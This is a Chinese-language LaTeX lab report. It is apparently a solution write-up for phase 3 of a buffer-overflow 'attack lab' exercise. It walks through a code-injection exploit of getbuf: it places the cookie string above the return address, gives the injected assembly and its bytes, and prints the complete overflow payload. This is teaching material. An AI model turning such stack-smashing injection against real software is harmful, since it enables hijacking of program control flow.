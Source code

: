 \documentclass[12pt,a4paper]{article}
\begin{document}
此实验的主要困难在于 \verb|touch3| 中的 \verb|hexmatch| 函数会开辟一段新的栈空间，并进行写入，如果将 cookie 字符串存储在栈上，则很有可能被 \verb|hexmatch| 覆盖。

由于函数总是在返回地址下方开辟栈空间，因此，为了避免 cookie 字符串被 \verb|hexmatch| 覆盖，应当将 cookie 字符串保存在返回地址上方。这样一来，在栈空间的读写操作就不会干涉到 cookie 字符串的存储。此外，考虑到 \verb|getbuf| 函数不需要正常返回，因此，即使在返回地址上方写入数据，破坏了 \verb|getbuf| 调用者的栈，也是安全的，不会产生异常。堆栈图如  所示

\begin{figure}[H]
    \hspace*{85pt}
    \includegraphics[width=0.7\textwidth]{./fig/3.png}
    \caption{实验3解法1堆栈图}
    \label{figure:exp_3}
\end{figure}

通过 \verb|gdb| 调试工具，找到 \verb|getbuf| 将要返回时栈顶指针 \%rsp 指向的地址为 0x000000005564e0b0，将其向上偏移16个字节，即为字符串的地址，编写传递参数的汇编代码如下：

\begin{lstlisting}[language={[x64]Assembler}]
movq    $0x5564e0c0, %rdi
ret
\end{lstlisting}

编译后反汇编得到

\begin{lstlisting}[language={[x64]Assembler}]
0:   48 c7 c7 c0 e0 64 55    mov    $0x5564e0c0,%rdi
7:   c3                      retq
\end{lstlisting}

利用 \verb|hexdump| 命令查看cookie的字符串存储形式为 33 37 36 31 62 61 38 30，需要注意字符串末尾要添加 \verb|'\0'|。得到最终结果如下：

\begin{lstlisting}
48 c7 c7 c0 e0 64 55
c3

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

78 e0 64 55 00 00 00 00
ee 19 40 00 00 00 00 00
33 37 36 31 62 61 38 30
00 00 00 00    
\end{lstlisting}
\end{document}
